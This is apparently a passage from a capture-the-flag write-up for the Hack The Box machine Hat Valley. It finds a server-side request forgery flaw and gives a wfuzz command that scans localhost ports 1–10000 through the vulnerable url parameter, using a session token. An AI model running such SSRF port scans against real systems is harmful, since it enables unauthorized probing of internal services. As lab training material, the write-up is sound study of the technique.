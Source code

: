 # Exploiting Server-Side Request Forgery (SSRF)

If we change the URL with our own, we can clearly see that we have SSRF vulnerability here.

![picture 13](/assets/images/1004c16abecef9b301ccac52abaa3634648c820f6c72c7beae2d7fcd2b239314.png)  

Let'S try to check the open ports on the localhost

```
wfuzz -c -z range,1-10000 --hh 0 -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY2NzI2ODEwfQ.zvrc3itkUEVgwgejeHZpsWGq7fEvz-fPUh5uGuVmI9o" 'http://hat-valley.htb/api/store-status?url="http://localhost:FUZZ/"'
```

![picture 15](/assets/images/486d707b3c0cb0da64c606ce65b47a9a2df490b52703287f556d8237f5aeb2a8.png)  

This looks promising:

![picture 16](/assets/images/060a6fc3c00ede3bef1d2e4f52ecd8d2134e11cfab0eeb8d11e2509696558edd.png)  
